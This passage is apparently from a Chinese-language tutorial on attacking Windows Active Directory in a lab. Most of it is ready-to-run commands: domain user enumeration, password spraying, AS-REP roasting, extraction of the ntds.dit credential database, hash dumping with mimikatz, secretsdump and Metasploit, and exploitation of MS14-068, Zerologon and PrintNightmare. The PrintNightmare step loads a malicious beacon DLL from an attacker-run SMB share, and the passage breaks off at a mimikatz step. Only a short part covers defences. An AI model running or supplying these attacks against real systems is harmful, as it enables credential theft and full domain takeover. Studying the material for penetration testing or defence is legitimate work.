kerbrute_windows_amd64.exe userenum --dc 192.168.23.130 -d zzx.com user.txt
```




##### pyKerbrute枚举域用户

下载地址：https://github.com/3gstudent/pyKerbrute

```
python2 EnumADUser.py 192.168.23.130 zzx.com user.txt tcp
或
python2 EnumADUser.py 192.168.23.130 zzx.com user.txt udp
```




#### 密码喷洒攻击

```
  通常情况下，穷举攻击是固定好用户名，利用多个密码尝试验证。与穷举攻击相反，密码喷洒攻击是固定好密码，尝试多个用户名进行验证，在域系统中，员工往往因为初始入域的密码未进行修改导致被攻击者采取密码喷洒的方式获取权限。
```

##### kerbrute

下载地址：https://github.com/ropnop/kerbrute/releases

```
kerbrute_windows_amd64.exe passwordspray --dc 192.168.23.130 -d zzx.com user.txt Test123
```



##### ADPwdSpray.py

下载地址：https://github.com/3gstudent/pyKerbrute

```
针对明文进行喷洒
python2 ADPwdSpray.py 192.168.23.130 zzx.com user.txt clearpassword test123 tcp

针对哈希进行喷洒
python2 ADPwdSpray.py 10.1.1.1 hack.com user.txt ntlmhash afffeba176210fad4628f0524bfe1942 udp
```



##### **DomainPasswordSpray.ps1**

下载地址：https://github.com/dafthack/DomainPasswordSpray/blob/master/DomainPasswordSpray.ps1

默认情况下，该脚本利用LDAP从域中导出用户列表，然后去除被锁定的用户，再用固定密码进行密码喷洒

```
Import-Module .\DomainPasswordSpray.ps1
Invoke-DomainPasswordSpray -UserList user.txt -Domain zzx.com -PasswordList pass.txt -OutFile sprayed-creds.txt
```



### AS-REP Roasting攻击

```
  AS-REP Roasting是一种对用户账号进行离线爆破的攻击方式。但是该攻击方式利用比较局限，因为其需要用户账号设置"Do not require Kerberos preauthentication(不需要kerberos预身份验证)" 。而该属性默认是没有勾选上的。
  预身份验证是Kerberos身份验证的第一步(AS_REQ & AS_REP)，它的主要作用是防止密码脱机爆破。默认情况下，预身份验证是开启的，KDC会记录密码错误次数，防止在线爆破。
  当关闭了预身份验证后，攻击者可以使用指定用户去请求票据，此时域控不会作任何验证就将 TGT票据 和 该用户Hash加密的Session Key返回。因此，攻击者就可以对获取到的 用户Hash加密的Session Key进行离线破解，如果破解成功，就能得到该指定用户的密码明文。
```

#### **AS-REP Roasting攻击条件**

- 域用户设置了 “ Do not require Kerberos preauthentication(不需要kerberos预身份验证) ”
- 需要一台可与KDC进行通信的主机/用户

#### **AS-REP Roasting攻击**

##### **普通域用户下**

###### **方法一：使用 Rubeus.exe**

**1、使用rubeus.exe获得Hash**

下载地址：https://github.com/GhostPack/Rubeus

```
Rubeus.exe asreproast /format:john /outfile:hash.txt
```



**2、使用john对获得的Hash进行爆破**

```
john --wordlist=pass.txt hash.txt
```




###### **方法二：powerview.ps1脚本**

**1、使用PowerSploit下的powerview.ps1查找域中设置了 "不需要kerberos预身份验证" 的用户**

下载地址：https://raw.githubusercontent.com/PowerShellMafia/PowerSploit/master/Recon/PowerView.ps1

```
Import-Module .\powerview.ps1
Get-DomainUser -PreauthNotRequired
```



**2、使用ASREPRoast.ps1获取AS-REP返回的Hash**

下载地址：https://github.com/HarmJ0y/ASREPRoast/blob/master/ASREPRoast.ps1

```
Import-Module .\ASREPRoast.ps1
Get-ASREPHash -UserName test -Domain zzx.com | Out-File -Encoding ASCII hash.txt
```



**3、将hash.txt复制Kali Linux系统下，并且修改为hashcat能识别的格式，在$krb5asrep后面添加$23拼接。然后使用以下命令爆**

```
hashcat -m 18200 hash.txt pass.txt --force
```




##### **非域内机器**

```
  对于非域内的机器，无法通过LDAP来发起用户名的查询。所以要想获取 "不需要kerberos预身份验证" 的域内账号，只能通过枚举用户名的方式来获得。而AS-REP Hash方面。非域内的主机，只要能和DC通信，便可以获取到。使用Get-ASREPHash，通过指定Server的参数即可  
```

**使用ASREPRoast.ps1获取AS-REP返回的Hash**

```
Import-Module .\ASREPRoast.ps1
Get-ASREPHash -UserName test -Domain zzx.com -Server 192.168.23.130 | Out-File -Encoding ASCII hash.txt
```



**将hash.txt复制Kali Linux系统下，并且修改为hashcat能识别的格式，在$krb5asrep后面添加$23拼接。然后使用以下命令爆**

```
hashcat -m 18200 hash.txt pass.txt --force
```


## 六、域控制器安全

```
	在通常情况下、即使拥有管理员权限,也无法读取域控制器中的C:\Windwos\NTDS\ntds.dit文件(活动目录始终访问这个文件，所以文件被禁止读取)。使用Windows本地卷影拷贝服务可以获得文件的副本。
```

### 使用卷影拷贝服务提取ntds.dit

#### 通过ntdsutil.exe提取ntds.dit

```
	ntdsutil.exe是一个为活动目录提供管理机制的命令行工具。使用 ntdsutil.exe,可以维护和管理活动目录数据库、控制单个主机操作、创建应用程序目录分区、删除由未使用活动目录安装向导(DCPromo.exe）成功降级的域控制器留下的元数据等。该工具默认安装在域控制器上、可以在域控制器上直接操作，也可以通过域内机器在域控制器上远程操作。ntdsutil.exe支持的操作系统有 Windows Server 2003、 Windows Server 2008、 Windows Server 2012。
```

**下面通过实验来讲解使用ntdsutil.exe提取ntds.dit的方法。**

**1、在域控制器的命令行环境中创建一个快照。该快照包含Windows的所有文件，且在复制文件时不会受到Windows锁定机制的限制。**

```
ntdsutil snapshot "activate instance ntds" create quit quit
```



可以看到，创建了一个GUID为{f9387348-aaa8-4a6d-9973-7665f6fc9ae8}的快照。

**2.加载创建的快照**

```
ntdsutil snapshot "mount {f9387348-aaa8-4a6d-9973-7665f6fc9ae8}" quit quit
```


**3.复制快照中的文件**

```
copy C:\$SNAP_202110030006_VOLUMEC$\Windows\NTDS\ntds.dit C:\Users\Public\ntds.dit
```


**4.卸载之前加载的快照并删除**

```
ntdsutil snapshot "unmount {f9387348-aaa8-4a6d-9973-7665f6fc9ae8}" "delete {f9387348-aaa8-4a6d-9973-7665f6fc9ae8}" quit quit
```


**5.查询当前快照**

```
ntdsutil snapshot "List All" quit quit
```


#### 利用 vssadmin提取 ntds.dit

```
	vssadminn是 Windows Server 2008 & Windows 7提供的VSS管理工具，可用于创建和删除卷影拷贝、列出卷影拷贝的信息（只能管理系统 Provider创建的卷影拷贝)、显示已安装的所有卷影拷贝写入程序（writers)和提供程序（providers),以及改变卷影拷贝的存储空间(即所谓的“diff空间”)的大小等。vssadminn 的操作流程和ntdsutil类似
```

**1.在域控制器中打开命令行环境,输入如下命令，创建一个C盘的卷影拷贝**

```
vssadmin create shadow /for=c:
```


**2.在创建的卷影拷贝中将ntds.dit 复制出来**

```
copy \\?\GLOBALROOT\Device\HarddiskVolumeShadowCopy2\windows\NTDS\ntds.dit c:\ntds.dit
dir c:\ |findstr "ntds"
```



**3.删除快照**

```
vssadmin delete shadows /for=c: /quiet
```


#### 利用vssown.vbs脚本提取ntds.dit

```
	vssown.vbs脚本的功能和vssadmin类似。vssown.vbs 脚本是由Tim Tomes开发的，可用于创建和删除卷影拷贝，以及启动和停止卷影拷贝服务。可以在命令行环境中执行该脚本。
```

下载链接：https://raw.githubusercontent.com/borigue/ptscripts/master/windows/vssown.vbs

下载后将其上传到目标主机上

**1.启动卷影拷贝服务**

```
cscript vssown.vbs /start
```


**2.创建一个C盘的卷影拷贝**

```
 cscript vssown.vbs /create c
```


**3.列出当前卷影拷贝**

```
 cscript vssown.vbs /list
```


**4.复制ntds.dit**

```
copy \\?\GLOBALROOT\Device\HarddiskVolumeShadowCopy3\windows\NTDS\ntds.dit c:\ntds.dit
```


**5.删除卷影拷贝**

```
cscript vssown.vbs /delete {11ee5932-e8a8-11e9-80b5-806e6f6e6963}
```


#### 使用ntdsutil的iFM创建卷影拷贝

```
	除了按照前面介绍的方法通过执行命令来提取ntds dit,也可以使用创建一个 IFM的方式获取nsdi。在使用ntdsutil创建IFM时，需要进行生成快照、加载、将ntds. dit和计算机的SAM文件复制到目标文件夹中等操作。这些操作也可以通过PowerShell或WMI远程执行
```

**1.在域控制器中以管理员模式打开命令行**

```
ntdsutil "ac i ntds" "ifm" "create full c:/test" q q
```


**2.将ntds.dit复制到c:\test\Active Directory\文件夹下，将SYSTEM和SECURITY复制到c:\test\registry文件夹下**

```
dir "c:\test\Active Directory"
dir "c:\test\registry"
```


**3.将ntds.dit拖回本地，删除test文件夹**

```
copy "c:\test\Active Directory\ntds.dit" c:\
rmdir /s /q test
```


#### 使用diskshadow导出ntds.dit

```
	微软官方文档中有这样的说明:“diskshadow.exe 这款工具可以使用卷影拷贝服务(VSS)所提供的多个功能。在默认配置下，diskshadow.exe 使用了一种交互式命令解释器， 与DiskRaid或DiskPart类似。”事实上，因为diskshadow的代码是由微软签名的，而且Windows Server 2008、Windows Server 2012和Windows Server 2016都默认包含diskshadow,所以，diskshadow 也可以用来操作卷影拷贝服务并导出ntds dit。diskshadow的功能与vshadow类似，且同样位于C:\windows\system32\目录下。不过，vshdow是包含在Windows SDK中的，在实际应用中可能需要将其上传到目标机器中。diskhadow有交互和非交互两种模式。在使用交互模式时，需要登录远程桌面的图形化管理界面。不论是交互模式还是非交互模式，都可以使用exee调取一个脚本 文件来执行相关命令。
```

**在渗透测试中，可以使用diskshadow.exe来执行命令。例如，将需要执行的命令"exec c:\windows\system32\calc.exe"写入c盘目录下的test.txt文件，使用diskshadow.exe执行该文件中的命令**

```
echo "exec c:\windows\system32\calc.exe" > text.txt
c:\>diskshadow /s c:\test.exe
```


**使用diskshadow.exe加载command.txt文件时需要在c:\windows\system32下执行**

```
cd c:\windows\system32
diskshadow /s c:\command.txt
```

command.txt内容：

```
//设置卷影拷贝
set context persistent nowriters
//添加卷
add volume c: alias someAlias    
//创建快照
create    
//分配虚拟磁盘盘符
expose %someAlias% k:    
//将ntds.dit复制到C盘c:\ntds.dit
exec "cmd.exe" /c copy K:\Windows\NTDS\ntds.dit c:\ntds.dit    
//删除所有快照
delete shadows all    
//列出系统中的卷影拷贝
list shadows all    
//重置
reset    
//退出
exit
```


**导出ntds.dit后，可以将system, hive转储。因为system.hive中存放着ntds.dit的密钥，所以如果没有该密钥，将无法查看ntds.dit中的信息**

```
reg save hklm\system c:\windows\temp\system.hive
```


**注意事项**

- 渗透测试人员可以在非特权用户权限下使用diskshadow.exe 的部分功能。与其他工具相比，diskshadow 的使用更为灵活。
- 在使用diskshadow.exe 执行命令时，需要将文本文件上传到目标操作系统的本地磁盘中，或者通过交互模式完成操作。而在使用vshadow等工具时，可以直接执行相关命令。
- 在渗透测试中，应该先将含有需要执行的命令的文本文件写人远程目标操作系统，再使用diskshadow.exe调用该文本文件。
- 在使用diskshadow.exe导出ntds.dit时，可以通过WMI对远程主机进行操作。
- 在使用diskshadow.exe导出ntds.dit时，必须在C:windowssystem32\中进行操作。
- 脚本执行后，要检查从快照中复制出来的ntds.dit文件的大小。如果文件大小发生了改变，可以检查或修改脚本后重新执行。

#### 监控卷影拷贝服务的使用情况

- 通过监控卷影拷贝服务的使用情况，可以及时发现攻击者在系统中进行的一些恶意操作。
- 监控卷影拷贝服务及任何涉及活动目录数据库文件(ntds.dit)的可疑操作行为。
- 监控System Event ID 7036(卷影拷贝服务进人运行状态的标志)的可疑实例，以及创建vssvc.exe进程的事件。
- 监控创建dkshndko.exe及相关子进程的事件。
- 监控客户端设备中的diskshadow.exe实例创建事件。除非业务需要， 在Windows操作系统中不应该出现diskshadow.exe.如果发现，应立刻将其删除。
- 通过日志监控新出现的逻辑驱动器映射事件。


### 导出ntds.dit中的散列值

#### 使用 esedbexport恢复ntds.dit

**本实验的系统环境为Kali Linux，需要将上一章导出的ntds.dit和system.hive文件复制到Kali Linux系统中来**

**1、导出ntds.dit**

**在Kali Linux命令行输入以下命令，下载libesedb**

```
wget https://github.com/libyal/libesedb/releases/download/20210424/libesedb-experimental-20210424.tar.gz
```


**安装依赖环境**

```
sudo apt install autoconf automake autopoint libtool pkg-config -y
```


**依次输入以下命令，对libesedb进行编译**

```
./configure
make 
sudo make install
sudo ldconfig
```

**安装完成后会在/usr/local/bin目录下看到esedbexport**

```
ls -l /usr/local/bin/esedbexport
```


**在Kali Linux命令行中，进入到存放ntds.dit的目录中，使用esedbexport进行恢复操作。输入如下命令提取表信息**

```
esedbexport -m tables ntds.dit
```

如果提取成功，会在同一目录下生成一个ntds.dit.export文件夹。在本实验在，只需要其中的datatable和link_table


**2、导出散列值**

**在Kali Linux上命令行环境输入如下命令，下载ntdsxtract工具**

```
git clone https://github.com/csababarta/ntdsxtract.git
```


**在Kali Linux上命令行环境输入如下命令，安装ntdsxtract**

```
sudo python setup.py build && sudo python setup.py install
```


**输入如下命令，将导出的ntds.dit.export文件夹和SYSTEM文件一并放入ntdsxtract文件夹中**

```
dsusers.py ntds.dit.export/datatable.4  ntds.dit.export/link_table.7 output --syshive system.hive --passwordhashes --pwdformat ocl --ntoutfile ntout --lmoutfile lmout |tee all_user_info.txt
```


**成功将域内的所有用户名及散列值导出到all_user_info.txt中**


#### 使用impacket工具包导出散列值

**本实验的系统环境为Kali Linux，需要将上一章导出的ntds.dit和system.hive文件复制到Kali Linux系统中来**

使用Impacket的工具包中的Secresdump.也可以解析ntds.dit文件，导出散列值

**1、在Kali Linux系统中输入如下命令，下载Impacket工具包**

```
git clone https://github.com/csababarta/ntdsxtract.git
```


**2、输入如下命令，将Impacket工具包安装到Kali系统中。**

```
sudo python setup.py install 
```


**3、输入如下命令，导出ntds.dit中的散列值**

```
impacket-secretsdump -system system.hive -ntds ntds.dit LOCAL
```


**4、impacket还可以通过用户名和散列值进行验证，从远程域控制器中读取ntds.dit并转储域散列值**

```
impacket-secretsdump -hashes aad3b435b51404eeaad3b435b51404ee:3b1da22b1973c0bb86d4a9b6a9ae65f6 -just-dc test.org/Administrator@192.168.93.10
```


#### 在Windows下解析ntds.dit并导出域账号和域散列值

下载连接：https://github.com/zcgonvh/NTDSDumpEx/releases/download/v0.3/NTDSDumpEx.zip

**使用NTDSDumpex.exe可以进行导出散列值的操作。NTDSDumpex将ntds.dit、system.hi和NTDSDumpex.exe放在同一目录下，打开命令行环境，输人如下命令，导出域账号和域散列值**

```
reg save hklm\system system.hive
NTDSDumpEx -d ntds.dit -s system.hive
```




### 利用dcsync获取域散列值

#### 使用 mimikatz转储域散列值

```
	mimikaz有一个 dcsync功能，可以利用卷影拷贝服务直接读取ntds.dit文件并检索城散列值。需要注意的是，必须使用域管理员权限运行mimikatz才可以读取ntds.dit.
```

**1.在域内的任意一台计算机，以管理员权限打开命令行环境，运行mimikatz。输入如下命令，使用mimikatz导出域内administrator用户的散列值**

```
lsadump::dcsync /domain:test.org /user:administrator  
```


**也可以直接在域控制器中运行mimikatz.exe,通过转储lsass.exe进程对散列值进行Dump操作，命令如下**

```
privilege::debug
lsadump::lsa /inject
```


**如果没有预先执行prvile::debug命令，将导致权限不足、读取失败。如果用户数量太多，mimikatz无法完全将其显示出来，可以先执行log命令(会在mimikatz目录下生成一个文本文件，用于记录mimikaz的所有执行结果)。**


#### 使用dcsync获取域账号和域散列值

下载链接：https://gist.githubusercontent.com/monoxgas/9d238accd969550136db/raw/7806cc26744b6025e8f1daf616bc359cb6a11965

​	**Invoke _DCSync.ps1可以利用desync直接读取ntds.dit,以获取域账号和域散列值 输人"nvoke-DCSync -PWDumpFormat"命令(-PWDumpFormat参数用于对输出的内容进行格式化)**

```
Import-Module .\Invoke-DCSync.ps1
Invoke-DCSync -PWDumpFormat
```


### 使用Metasploit获取域散列值

#### psexec_ntdsgrab模块的使用

**在Kali Linux中进入Metasploit环境，输入如下命令，使用psexec_ntdsgrab模块导出目标主机的ntds.dit和SYSTEM文件**

```
use auxiliary/admin/smb/psexec_ntdsgrab
set rhosts 192.168.93.10
set smbuser administrator
set domain test.org
set smbpass Test123
exploit
```

获取目标主机的ntds.dit和SYSTEM并将其保存到 /root/.msf4/loot/目录下


#### 基于meterpreter会话获取域账号和散列值

假设当前meterpreter会话为域控主机，可以使用post/windows/gather/credentials/domain_hashdump来获取域账号和散列值

```
run post/windows/gather/credentials/domain_hashdump
```




### 使用QuarksPwDumpexe导出域账号和域散列值

下载连接：https://codeload.github.com/quarkslab/quarkspwdump/zip/master

```
	在正常的域环境中,ntds.dit文件里包含大量的信息，体积较大，不方便保存到本地。如果域控制器上没有安装杀毒软件，攻击者就能直接进人域控制器，导出ntds.dit并获得域账号和域散列值，而不需要将ntds.dit保存到本地。Quarks PwDump 是一款开放源代码的Windows用户凭据提取工具，它可以抓取windows平台下多种类型的用户凭据，包括：本地帐户、域帐户、缓存的域帐户和Bitlocker。作者开发这个工具的原因是现在没有一款工具能同时抓取所有类型的hash和Bitlocker信息
	用QuarksPwDump可以快速、安全、全面地读取全部域账号和域散列值。
```

**QuarksPwDump目前可以导出 :**

– Local accounts NT/LM hashes +history 本机NT/LM哈希+历史登录记录

– Domain accounts NT/LM hashes +history 域中的NT/LM哈希+历史登录记录

– Cached domain password 缓存中的域管理密码

**使用选项：** Quarks PwDump必须在Dos命令提示符下运行，直接运行QuarksPwDumpv0.2b.exe，如图1所示，默认显示帮助信息，其参数含义如

-dhl  导出本地哈希值

-dhdc导出内存中的域控哈希值

-dhd  导出域控哈希值，必须指定NTDS文件

-db  导出Bitlocker信息，必须指定NTDS文件

-nt   导出ntds文件

-hist  导出历史信息，可选项

-t   导出类型可选默认导出为John类型。

-o 导出文件到本地

**1、使用Quarks PwDump导出账号实例**

使用命令“QuarksPwDump.exe -dhl -o hash.txt”将导出本地哈希值到当前目录的1.txt，执行命令会显示导出帐号的数量，如下图所示。显示有2个帐号导出到hash.txt，打开hash.txt可以看到导出哈希值的具体帐号和值。

```
QuarksPwDump.exe -dhl -o hash.txt
```


**2、配合ntdsutil工具导出域控密码**

```
	ntdsutil.exe是一个为 Active Directory 提供管理设施的命令行工具。可使用Ntdsutil.exe 执行Active Directory的数据库维护，管理和控制单个主机操作，创建应用程序目录分区，以及删除由未使用Active Directory安装向导 (DCPromo.exe)成功降级的域控制器留下的元数据。Ntdsutil还可以用来获取域控数据库ntds.dit文件，具体命令如下：
```

**ntdsutil工具导出ntds.dit：**

```
##创建快照
ntdsutil  snapshot  "activate  instance ntds"  create  quit quit

##Ntdsutil挂载活动目录的快照,其中的GUID为上一步创建快照生成的GUID
ntdsutil  snapshot  "mount {b37e85a8-75b4-4a07-8334-c2bb9537fa26}"  quit quit

##复制快照的本地磁盘
copy C:\$SNAP_202110031036_VOLUMEC$\Windows\NTDS\ntds.dit C:\ntds.dit

##卸载快照
ntdsutil  snapshot  "unmount {b37e85a8-75b4-4a07-8334-c2bb9537fa26}"  quit quit

##删除快照
ntdsutil  snapshot  "delete {b37e85a8-75b4-4a07-8334-c2bb9537fa26}"  quit quit
```


**使用命令"QuarksPwDump.exe --dump-hash-domain--ntds-file c:\ntds.dit"将导出的ntds.dit文件中哈希值全部导出**

```
QuarksPwDump.exe --dump-hash-domain --ntds-file c:\ntds.dit
```


### 远程导出域用户和Hash值

#### 使用CrackMapExec导出域用户和Hash值

```
crackmapexec smb 192.168.23.132 -u administrator -p Test123 --ntds vss
crackmapexec smb 192.168.23.132 -u administrator -p Test123 --ntds drsuapi #default
```



#### 使用secretsdump.py脚本远程导出本地和域用户哈希

```
secretsdump.py -dc-ip 192.168.23.132 test.org/administrator@192.168.23.132 -use-vss
```




### Kerberos域用户提权漏洞(MS14-068)分析与防范

```
	微软在2014年1月18日发布了一个紧急补了，修复了Kerhers 城用户提权漏润(MS14-068 CVE201462424)所有Windwos服务器操作系统都会受该漏洞的影响，包括WindowsServer2003、Windows Server 208 Windows Sever 2008 R2、Windows Server 2012和Win2012R2。该漏洞可导致活动目录整体权限控制受到影响，允许攻击者将城内任意用户权限提升至域管理级别。通俗地讲，如果攻击者获取了城内任何台计算机的Shell 权限，同时知道任意城用的用户名、SID、密码，即可获得域管理员权限，进而控制域控制器，最终获得域权限。这个漏洞产生的原因是:用户在向Kerberos 密明分发中心( KDC)申请TGT由票据授权服务产生的身份凭证)时，可以伪造自己的Kerberos票据。如果票据声明自己有域管理员权限，而在处理该票据时未验证票据的签名， 那么返给用户的 TGT就使普通域管理用户权限。该用户可以将TGT发送到KDC, KDC的TGS (票据授权服务)在验证TGT后，将服务票据(Service Ticket)发送给该用户，而该用户拥有访问任何该服务的权限，从而使攻击者可以访问域内的资源。
```

#### 测试环境

- 域：god.org
- 域控账号：test/ASDQWE123@asd
- 域控制器：owa
- 域SID：S-1-5-21-2952760202-1353902439-2381784089
- Kai Linux主机IP地址：192.168.93.1
- 域机器的IP地址: 192.168.93.129

#### 漏洞利用

##### PyKEK工具包

```
	pyKEK (Pybon Kerberos Expoiation Kit)是利用Kerberos协议进行渗透测试的工具包，使用PyKEK可以生生成一张高权原的服务票据，并通过mimikatz将服务票据注人内存。
```

PyKEK下载地址：https://github.com/mubix/pykek
mimikatz下载地址：https://github.com/gentilkiwi/mimikatz

**1、工具说明**

 ms14-068. py是PyKEK工具包中的MS14-068漏洞利用脚本

```
-u <userName>@<domainName>:用户名@域名。
-s <userSid>: 用户SID。
-d <domainControlerAddr>:域控制器地址。
-p <clearPassword>: 明文密码。
--rc4 <ntlmHash>:在没有明文密码的情况下，通过NTLM Hash登录
```

**2.查看域控制器的补丁安装情况** 微软针对MS14-068 ( CVE-2014-6324 )漏洞提供的补丁为KB3011780

```
wmic qfe get hotfixid
```


**3、获取域内所有用户SUID**

```
wmic useraccount get name,sid
```


**4、生成高权限票据**

**使用PyKEK生成高权限票据命令**

```
ms14-068.exe -u test@god.org -s S-1-5-21-2952760202-1353902439-2381784089-1114  -d 192.168.93.129 -p ASDQWE123@asd
```


将生成的票据和mimikatz.exe复制到god.org域内低权限主机上

**5.查看注入前的权限**

```
dir \\owa
```


**6.清除内存中的所有票据**

打开mimikatz.exe，输入kerberos::purge命令清除内存中的票据

```
kerberos::purge
```


**7.将高权限票据注入内存**

```
kerberos::ptc C:\Users\test\Desktop\TGT_test@god.org.ccache
```


**8.验证权限**

```
dir \\owa\c$
```


##### goldenPac.py

```
	goldenPac.py是一个用于对Kerberos协议进行测试的工具，它集成在impacket工具包里。
```

**impacket下载地址：https://github.com/SecureAuthCorp/impacket.git**

**1、安装Kerberos客户端，Kali中默认不包含Kerberos客户端，因此需要单独安装，命令如下。**

```
apt-get install krb5-user -y
```


**2、配合使用PsExec获取域控制器的Shell**

```
python3 goldenPac.py god.org/test:ASDQWE123@asd@owa.god.org
```

> 这里使用 IP 进行连接会连接不成功，只能使用主机名，因此可以在 hosts 文件中添加主机名对应的 IP


##### Kekeo

```
	Kekeo，是PyKEk的升级版，他能够找到并定位有漏洞的域控，在打了补丁（KB3011780）和 2012/2012r2域控情况下仍能奏效。
```

**下载地址：https://github.com/gentilkiwi/kekeo**

kekeo程序可以自动获取域用户的SUID，以及清除导入票据也能自动实现

kekeo的快捷用法仅需要以下参数：

- 域用户及其口令
- 域控地址

```
kekeo.exe "exploit::ms14068 /domain:god.org /user:test /password:ASDQWE123@asd /ptt" "exit"
```

实际测试如图，成功获得了域控的访问权限



#### 防范建议

**针对Kerberos用户提权，有如下防范建议**

-  开启Windows Update功能，进行自动更新。
-  手动下载补丁包进行修复。微软已经发布了修复该漏洞的补丁
-  对域内账号进行控制，禁止使用弱口令，及时、定期修改密码。
-  在服务器上安装反病毒软件，及时更新病毒库。


### CVE-2020-1472NetLogon权限提升漏洞

```
  在2020年8月份微软公布的安全公告中，有一个十分紧急的漏洞——CVE-2020-1472 NetLogon权限提升漏洞。通过该漏洞，未经身份的验证者只需能访问域控的135端口即可通过使用Netlogon远程协议(MS-NRPC)连接域控制器并重置域控的机器账号的哈希，从而导致攻击者可以通过域控的机器账号导出域内的所有用户哈希（域控的机器具有Dcsync权限，使用Dcsnyc导出域内哈希，需要域控开启445端口），进而接管整个域。
```

#### 漏洞原理

```
  Netlogon使用的AES认证算法中的vi向量默认为0，导致攻击者可以绕过认证，可以向域发起Netlogon 计算机账户认证请求, 使用8字节全0 client challenge 不断尝试得到一个正确的8字节全0 client credential 通过认证，再通过相关调用完成对域控密码的修改。
```

#### 影响版本

```
Windows Server 2008 R2 for x64-based Systems Service Pack 1
Windows Server 2008 R2 for x64-based Systems Service Pack 1 (Server Core installation)
Windows Server 2012
Windows Server 2012 (Server Core installation)
Windows Server 2012 R2
Windows Server 2012 R2 (Server Core installation)
Windows Server 2016
Windows Server 2016 (Server Core installation)
Windows Server 2019
Windows Server 2019 (Server Core installation)
Windows Server, version 1903 (Server Core installation)
Windows Server, version 1909 (Server Core installation)
Windows Server, version 2004 (Server Core installation)
```

#### 实验环境

**域控：Windows2012 R2(X64)**
**IP：192.168.23.130**
**主机名：WIN-ENQBK7DILQE**
**域：zzx.com**

#### 利用过程

##### impacker攻击

执行如下命令判断域控制器是否存在该漏洞

```
python3 zerologon_tester.py win2008 192.168.10.131
```



首先运行exp脚本，将AD域控的机器账户WIN-ENQBK7DILQE的密码置换成空

下载地址：https://github.com/dirkjanm/CVE-2020-1472.git

```
#查询域控的机器用户哈希
python3 secretsdump.py zzx.com/administrator:Test123@192.168.23.130 -just-dc-user "WIN-ENQBK7DILQE$"
 
#攻击，使域控的机器账号哈希置为空
python3 cve-2020-1472-exploit.py  WIN-ENQBK7DILQE 192.168.23.130
 
#再次查询域控的机器用户哈希，可以看到，已经变为空了
python3 secretsdump.py zzx.com/administrator:Test123@192.168.23.130 -just-dc-user "WIN-ENQBK7DILQE$"
```


```
#使用机器账号，哈希为空连接，导出administrator用户的哈希
python3 secretsdump.py "zzx/WIN-ENQBK7DILQE$"@192.168.23.130 -hashes aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0 -just-dc-user "administrator"
#然后用administrator用户的哈希连接域控
python3 wmiexec.py zzx/administrator@192.168.23.130 -hashes aad3b435b51404eeaad3b435b51404ee:3b1da22b1973c0bb86d4a9b6a9ae65f6
```




##### 使用Mimikatz攻击

```
#如果当前主机在域环境中，则target这里可以直接使用FQDN
lsadump::zerologon /target:WIN-ENQBK7DILQE.zzx.com /ntlm /null /account:WIN-ENQBK7DILQE$ /exploit

#如果当前主机不在域环境中，则target这里可以直接指定ip
lsadump::zerologon /target:192.168.23.130 /ntlm /null /account:WIN-ENQBK7DILQE$ /exploit
```




#### 还原计算机账号原始hash

```
  如果机器账户hash长时间为空，可能会导致脱域，对内网的使用产生重大影响，因此拿到权限的第一时间需要把hash重置回去。
```

##### 获取计算机账号原始hash

```
reg save HKLM\SYSTEM system.save
reg save HKLM\SAM sam.save
reg save HKLM\SECURITY security.save
```



将保存的三个文件放到impacket的examples目录下，执行如下命令，成功获取到原来机器的哈希

```
python3 secretsdump.py -sam sam.save -system system.save -security security.save LOCAL
```



##### 还原计算机账号原始hash

下载地址：https://github.com/risksense/zerologon

获取到域控机器原始Hash后，使用reinstall_original_pw.py脚本进行还原

```
python3 reinstall_original_pw.py WIN-ENQBK7DILQE 192.168.23.130 bf5fad5c93587ec5841d90ae67a69eea
```




### Windows Print Spooler权限提升漏洞(CVE-2021-1675)

```
  Microsoft Windows Print Spooler服务未能限制对RpcAddPrinterDriverEx()函数的访问，该函数可能允许远程身份验证的攻击者以系统权限在易受攻击的系统上执行任意代码。该RpcAddPrinterDriverEx()函数用于在系统上安装打印机驱动程序。此函数的参数之一是DRIVER_CONTAINER对象，它包含有关添加的打印机将使用哪个驱动程序的信息。另一个参数，dwFileCopyFlags指定如何复制替换打印机驱动程序文件。攻击者可以利用任何经过身份验证的用户都可以调用RpcAddPrinterDriverEx()并指定位于远程服务器上的驱动程序文件这一事实。这会导致 Print Spooler 服务spoolsv.exe以 SYSTEM 权限执行任意 DLL 文件中的代码。
```

#### 影响版本

```
Windows Server 2012 R2 (Server Core installation)
Windows Server 2012 R2
Windows Server 2012 (Server Core installation)
Windows Server 2012
Windows Server 2008 R2 for x64-based Systems Service Pack 1 (Server Core installation)
Windows Server 2008 R2 for x64-based Systems Service Pack 1
Windows Server 2008 for x64-based Systems Service Pack 2 (Server Core installation)
Windows Server 2008 for x64-based Systems Service Pack 2
Windows Server 2008 for 32-bit Systems Service Pack 2 (Server Core installation)
Windows Server 2008 for 32-bit Systems Service Pack 2
Windows RT 8.1
Windows 8.1 for x64-based systems
Windows 8.1 for 32-bit systems
Windows 7 for x64-based Systems Service Pack 1
Windows 7 for 32-bit Systems Service Pack 1
Windows Server 2016 (Server Core installation)
Windows Server 2016
Windows 10 Version 1607 for x64-based Systems
Windows 10 Version 1607 for 32-bit Systems
Windows 10 for x64-based Systems
Windows 10 for 32-bit Systems
Windows Server, version 20H2 (Server Core Installation)
Windows 10 Version 20H2 for ARM64-based Systems
Windows 10 Version 20H2 for 32-bit Systems
Windows 10 Version 20H2 for x64-based Systems
Windows Server, version 2004 (Server Core installation)
Windows 10 Version 2004 for x64-based Systems
Windows 10 Version 2004 for ARM64-based Systems
Windows 10 Version 2004 for 32-bit Systems
Windows 10 Version 21H1 for 32-bit Systems
Windows 10 Version 21H1 for ARM64-based Systems
Windows 10 Version 21H1 for x64-based Systems
Windows 10 Version 1909 for ARM64-based Systems
Windows 10 Version 1909 for x64-based Systems
Windows 10 Version 1909 for 32-bit Systems
Windows Server 2019 (Server Core installation)
Windows Server 2019
Windows 10 Version 1809 for ARM64-based Systems
Windows 10 Version 1809 for x64-based Systems
Windows 10 Version 1809 for 32-bit Systems
```

#### 实验环境

```
攻击者(Kali Linux)：192.168.23.1
目标主机(Windows 2012 R2)：192.168.23.132
```

#### 利用过程

##### Python脚本攻击

**1、检测目标机器是否开启MS-RPRN服务，开启即可尝试利用**

```
rpcdump.py @192.168.23.132 |grep -i MS-RPRN
```



**2、CS生成一个恶意dll文件，然后用smbserver.py开启一个smb服务**

```
smbserver.py temp /tmp
```



**3、使用python脚本进行攻击，成功上线CS**

下载地址：https://github.com/cube0x0/CVE-2021-1675

````
python3 CVE-2021-1675.py zzx.com/admin:Test123@192.168.23.132 '\\192.168.23.1\temp\beacon.dll'
````




##### 使用mimikatz进行攻击

```
mimikatz.exe
